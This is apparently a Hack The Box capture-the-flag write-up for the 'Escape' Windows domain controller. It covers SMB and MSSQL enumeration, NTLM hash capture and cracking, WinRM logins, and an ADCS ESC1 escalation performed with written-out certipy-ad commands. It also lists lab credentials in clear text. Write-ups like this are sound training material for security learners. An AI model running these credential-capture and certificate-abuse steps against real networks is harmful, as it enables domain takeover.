```
Scope:
10.129.228.253
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn -T5 -vvvv escape.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-01-24 16:18:45Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T16:20:13+00:00; +7h59m48s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
|_ssl-date: 2026-01-24T16:20:14+00:00; +7h59m48s from scanner time.
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T16:20:14+00:00; +7h59m48s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49689/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29662/tcp): CLEAN (Timeout)
|   Check 2 (port 16305/tcp): CLEAN (Timeout)
|   Check 3 (port 12096/udp): CLEAN (Timeout)
|   Check 4 (port 48343/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h59m47s, deviation: 0s, median: 7h59m47s
| smb2-time: 
|   date: 2026-01-24T16:19:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## kerbrute

Using `kerbrute` I was able to find the following service accounts present:



I reran `kerbrute` a couple times to check for usernames but wasn't able to get any hits, instead I ran `enum4linux-ng` as the *guest* user:

## enum4linux-ng



The following info was found:





The **Public** share appears to be readable.



I downloaded the file and checked out the contents:



And there was also a **Bonus** tab heading:



```
PublicUser
GuestUserCantWrite1
```

## nxc

It appeared that this user was still valid:



Using this user I was able to enumerate other domain users:



### mssql_coerce

Using the following commands I was then able to coerce the *sql_svc* account into authenticating to our host:



In `responder` I saw the following pop up:



I then proceeded to crack it using hashcat:





```
sql_svc
REGGIE1234ronnie
```

Moving on I enumerated whether this user had any specific rights on the `mssql` server but I didn't manage to find anything useful:



Instead I sprayed the passwords against the other services and noticed I could log into winrm with this user.



# Foothold
## Shell as sql_svc



I did not notice anything interesting inside my home directory but did notice the **SQLServer** directory under `C:\`:



## Cleartext Credentials

I then checked out the error log inside the **Logs** directory where I found something:





It appears that a user, perhaps *ryan*, tried to log in with their password instead of their username. Let's check our suspicions.



While they didn't seem to be very useful for `mssql`, they also worked for `winrm`:



## Lateral Movement to ryan.cooper



### user.txt



# Privilege Escalation
## ADCS - ESC1

Using *ryan*'s credentials I enumerated the target with `certipy-ad` which displayed the target being vulnerable to **ESC1**:

```bash
certipy-ad find -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip 10.129.228.253 -stdout -vulnerable
```





In order to exploit this vulnerability I used the following command:

```bash
certipy-ad req -username ryan.cooper@sequel.htb -p 'NuclearMosquito3' -ca sequel-DC-CA -template UserAuthentication -dc-ip 10.129.228.253 -upn Administrator@sequel.htb
```



Next up I authenticated as the *Administrator*, changed their password via `ldap-shell` and logged in:



### root.txt





# Addendum

This box was also my 100th rooted machine on HTB:


---
